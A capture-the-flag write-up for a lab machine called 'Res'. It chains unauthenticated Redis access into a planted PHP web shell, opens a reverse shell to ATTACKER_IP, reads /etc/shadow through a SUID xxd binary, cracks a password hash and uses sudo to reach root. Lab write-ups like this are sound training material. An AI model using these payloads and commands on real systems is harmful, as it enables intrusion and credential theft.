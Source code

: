 # Res

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `redis`,  `reverse shell`,  `xxd`

---

##### Written: 23/11/2021

##### IP address: 10.10.46.25

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this website which teaches us how to obtain Remote Code Execution via a Redis server:

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

<img style="float: left;" src="screenshots/screenshot2.png">

<br>

We can connect to the Redis server using **redis-cli** (Installation: `sudo apt install redis-tools`)

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

<img style="float: left;" src="screenshots/screenshot3.png">

From the webpage, we know that the web server is running **Apache**. The root directory of Apache servers is **/var/www/html**.

We can then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! It works :smile: 

<br>

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the '**cmd**' parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=ATTACKER_IP PORT -e /bin/bash`

<img style="float: left;" src="screenshots/screenshot6.png">

And we're in!

<br>

Visiting the **/home** directory, we can see that there is one other account: **vianka**.

The user flag can be found in vianka's home directory:

<img style="float: left;" src="screenshots/screenshot7.png">

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through Vianka's files yielded nothing of interest. There was also nothing useful in directories like **/opt** and **/tmp**.

Next, I decided to search for SUID-bit set files:

```
find / -type f -perm /u=s 2>/dev/null
```

**Results:**

<img style="float: left;" src="screenshots/screenshot8.png">

We have an interesting file: **xxd**

<br>

Looking on GTFOBins, we can find the following way to exploit this program: https://gtfobins.github.io/gtfobins/xxd/

<img style="float: left;" src="screenshots/screenshot9.png">

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

<img style="float: left;" src="screenshots/screenshot10.png">

And we have found Vianka's hashed password (at the bottom).

<br>

We then use **John the Ripper** to crack the password.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

**Results:**

<img style="float: left;" src="screenshots/screenshot11.png">

Password: **beautiful1**

---

### [ Escalate privileges and obtain root.txt ]

We can now log into Vianka's account.

<img style="float: left;" src="screenshots/screenshot12.png">

Let's check Vianka's **sudo privileges**:

```
sudo -l
```

<img style="float: left;" src="screenshots/screenshot13.png">

Turns out Vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`.

```
sudo cat /root/root.txt
```

<img style="float: left;" src="screenshots/screenshot14.png">

